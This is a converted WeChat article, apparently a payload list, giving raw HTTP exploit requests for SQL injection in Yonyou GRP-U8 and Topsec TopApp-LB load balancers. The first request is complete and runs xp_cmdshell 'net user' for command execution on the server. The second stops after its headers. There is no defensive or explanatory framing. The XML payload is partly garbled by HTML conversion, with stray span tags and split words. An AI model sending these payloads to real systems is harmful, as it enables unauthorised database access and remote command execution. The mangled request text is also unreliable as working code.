 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/lQ\_gaDjMLw22mtzWHd1Z9A)

0\. 目录

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iaUGQ0wKQJSdvWh1guMWIxrwv6gkgc22w0CzKZkM3OJ2uprEIZ8Hlz0g/640?wx_fmt=png)

1\. 用友 GRP-u8 SQL 注入

POST /Proxy HTTP/1.1

Accept: Accept: \*/\*

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)

Host: host

Content-Length: 357

Connection: Keep-Alive

Cache-Control: no-cache

cVer=9.8.0&dp=<r9packet< span=""></r9packet<>

version="1">XMLAS\_DataRe

questProviderName<data< span=""></data<>

format="text">DataSetProviderDataData

\>exec xp\_cmdshell 'net

user'

2\. 天融信 TopApp-LB sql 注入

POST /acc/clsf/report/datasource.php HTTP/1.1

Host:

Connection: close

Accept: text/javascript, text/html, application/xml, text/xml, \*/\*

X-Prototype-Version: 1.6.0.3

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: cors

Sec-Fetch-Dest: empty

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9
